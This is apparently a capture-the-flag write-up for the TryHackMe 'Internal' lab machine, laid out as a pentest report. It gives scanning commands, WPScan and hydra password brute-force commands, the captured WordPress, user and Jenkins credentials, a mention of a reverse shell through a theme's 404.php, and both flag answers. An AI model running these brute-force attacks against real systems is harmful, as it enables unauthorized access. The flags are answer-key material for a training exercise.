 
<h1 align='center'> [THM] Internal </h1>

<br><hr><br>


## Client Details:-

- Machine: `Internal`
- Url: `http://internal.thm`
- IP Address: `10.10.169.15`

- _Scope of work:_
	- find __user.txt__ (gain sys shell) & __root.txt__ (privesc)
	- report any/all vulnerabilities found doing so


<br><hr><br>


## Penetration Test:- 
> find step-by-step pentest notes [here](./notes.md)


### Reconnaissance & Scanning:

- Nmap scan [[results](./nmap.log)]
	- cmd: `nmap -sC -sV -A -o nmap.log internal.thm`

- Gobuster scan [[results](./gobuster_0.log)]: main ip/domain
	- cmd: `gobuster dir -u http://internal.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_0.log`

- Gobuster scan [[results](./gobuster_1.log)]: blog site
	- cmd: `gobuster dir -u http://internal.thm/blog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_1.log`

- WPScan [[results](./wpscan.log)]
	- cmd: `wpscan --url http://internal.thm/blog/ -e vp,vt,tt,cb,dbe,u,m -o wpscan.log`


### Gaining Access:

- WPScan [[results](./wpscan_user_bf.log)]: user login brute force
	- cmd: `wpscan --url http://internal.thm/blog/ -P /usr/share/wordlists/rockyou.txt -o wpscan_user_bf.log`

- Login found for _wordpress admin_:
	- username: `admin`
	- password: `my2boys`

- Got __reverse shell__ (`http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`) 

- Got user credentials:
	- username: `aubreanna`
	- password: `bubb13guM!@#123`

- Got `user.txt` flag: `THM{int3rna1_fl4g_1}`

- Got _Jenkins_ logins by brute force:
	- username: `admin`
	- password: `spongebob`
	- cmd: `hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-post-form -s 9999 "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`

- Got `root.txt` flag: `THM{d0ck3r_d3str0y3r}`
